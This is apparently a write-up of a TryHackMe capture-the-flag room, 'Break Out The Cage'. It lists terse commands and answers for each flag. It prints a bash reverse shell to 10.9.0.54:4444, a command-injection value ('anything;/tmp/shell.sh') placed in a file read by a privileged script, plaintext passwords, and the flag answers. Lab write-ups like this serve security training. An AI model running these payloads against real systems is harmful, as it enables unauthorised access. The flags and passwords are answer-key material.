 # <div align="center">[Break Out The Cage](https://tryhackme.com/r/room/breakoutthecage1)</div>
<div align="center">Help Cage bring back his acting career and investigate the nefarious goings on of his agent!</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/ed38db2b-132d-4481-91b0-b98251287fd6" height="200"></img>
</div>

## Task 1. Investigate!

Let's find out what his agent is up to....

### What is Weston's password?
```
nmap -sC -sV <IP>
ftp <IP>
ls -la
get dad_tasks
cat dad_tasks | base64 -d
```
```
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```
### What's the user flag?
```
ssh weston@<IP>
weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes
sudo -l
ls -l /usr/bin/bees
sudo /usr/bin/bees 
find / -type f -user cage 2>/dev/null
cat /opt/.dads_scripts/spread_the_quotes.py
cat /opt/.dads_scripts/.files/.quotes
nc -nlvp 4444

cat > /tmp/shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/10.9.0.54/4444 0>&1
EOF

chmod +x /tmp/shell.sh
printf 'anything;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
cat Super_Duper_Checklist
```

```
THM{M37AL_0R_P3N_T35T1NG}
```
### What's the root flag?
```
cat email_backup/*
su root
Password: cageisnotalegend
ls -la
cd email_backup
cat email_1
```
```
THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
```

